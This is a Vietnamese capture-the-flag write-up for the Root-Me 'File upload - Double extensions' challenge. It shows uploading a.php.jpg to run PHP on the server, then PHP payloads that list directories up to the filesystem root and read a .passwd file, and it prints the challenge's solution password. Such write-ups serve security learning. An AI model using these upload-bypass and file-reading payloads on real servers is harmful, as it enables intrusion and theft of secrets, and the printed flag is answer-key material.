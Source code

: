 # Challenge: File upload - Double extensions
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions

- Thử thách như một trình xem ảnh
<p align="center"><img src="./images/6.1.png"></p>

- Dạo quanh trang web thì có một nơi upload file, những file upload phải có phần mở rộng là png, jpg `only .gif, .jpeg and .png are accepted`
<p align="center"><img src="./images/6.2.png"></p>
<p align="center"><img src="./images/6.3.png"></p>
<p align="center"><img src="./images/6.4.png"></p>
<p align="center"><img src="./images/6.5.png"></p>

- Thử thách có đề cập tới `Double extensions` do vậy ta thử tạo một file php, nhưng lại thêm một phần mở rộng khác là jpg. Tạo file với tên `a.php.jpg` có nội dung.
> `<?php echo phpinfo(); ?>`

- Khi đó ta thấy đã thực thi được file
<p align="center"><img src="./images/6.6.png"></p>

- Liệt kê các file hiện tại với payload
> `<?php $scan=scandir("."); foreach($scan as $file){echo "$file\n";} ?>  `
#ls galerie/upload/e67ff4a2f42984fe8bf237d3c876fddf

> `<?php $scan=scandir("../"); foreach($scan as $file){echo "$file\n";} ?>  `
#ls galerie/upload/

> `<?php $scan=scandir("../../"); foreach($scan as $file){echo "$file\n";} ?>  `
#ls galerie/

> `<?php $scan=scandir("../../../"); foreach($scan as $file){echo "$file\n";} ?>  `
#ls /
<p align="center"><img src="./images/6.7.png"></p>

- Vậy tệp tin .passwd nằm tại `../../../.passwd` ta tiến hành đọc file này với payload
> `<?php $data = file_get_contents("../../../.passwd"); echo $data; ?>`
<p align="center"><img src="./images/6.8.png"></p>

## Kết quả password là `Gg9LRz-hWSxqqUKd77-_q-6G8`